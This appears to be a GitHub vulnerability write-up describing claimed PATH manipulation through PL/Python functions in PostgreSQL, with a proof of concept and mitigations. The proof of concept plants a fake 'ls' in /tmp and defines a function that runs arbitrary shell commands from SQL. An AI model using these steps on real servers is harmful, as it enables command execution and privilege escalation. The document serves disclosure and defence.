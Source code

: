 # postgresql-env-vuln
Details and proof-of-concept for a vulnerability affecting PostgreSQL environment variable handling via PL/Python functions.

# PostgreSQL Environment Variable Manipulation Vulnerability

## Description
This repository documents a vulnerability identified in PostgreSQL versions 16.3 and 17.1 that allows for unauthorized manipulation of environment variables using `PL/Python` functions. This issue can lead to unauthorized command execution, privilege escalation, and other potential security impacts.

## Affected Products/Versions
- **Product**: PostgreSQL
- **Versions Affected**: 16.3, 17.1

## Proof-of-Concept (PoC)
### Steps to Reproduce
1. Connect to the PostgreSQL database as a user with permissions to create functions.
   ```bash
   psql -U [username] -d [database_name]
2. Create a PL/Python function to modify the PATH environment variable:
   ```bash
   CREATE FUNCTION test_env_python() RETURNS void AS $$
   import os
   os.environ['PATH'] = '/tmp/test_bin:' + os.environ['PATH']
   $$ LANGUAGE plpython3u;
3. Verify the change by creating a custom script in /tmp/test_bin and executing it through PostgreSQL.
   Create the script:
   ```bash
   mkdir /tmp/test_bin
   echo -e '#!/bin/bash\n echo "Custom script executed!"' > /tmp/test_bin/ls
   chmod +x /tmp/test_bin/ls
4. Execute the script through a PostgreSQL function:
   ```bash
   CREATE FUNCTION run_shell_command(cmd TEXT) RETURNS void AS $$
   import subprocess
   subprocess.run(cmd, shell=True)
   $$ LANGUAGE plpython3u;

   SELECT run_shell_command('ls');

## Expected Outcome
The custom ls script in /tmp/test_bin is executed, demonstrating that environment variable manipulation allows for custom command execution.

### Impact

### This vulnerability enables:

Unauthorized Code Execution: An attacker with permissions to create functions may modify the environment and execute arbitrary commands.
Privilege Escalation: Depending on the privileges of the PostgreSQL user, an attacker may gain higher-level access or control over the underlying server.

## Suggested Mitigations

-Restrict Permissions: Limit the creation of PL/Python and PL/Perl functions to trusted users only.
-Environment Variable Sanitization: Ensure that environment variables are properly sanitized and modifications are restricted.
-Upgrade PostgreSQL: If a fix is released by the PostgreSQL Global Development Group, update to the latest version.
-Audit Database Functions: Regularly audit user-created functions to detect and prevent potential exploitation.
   
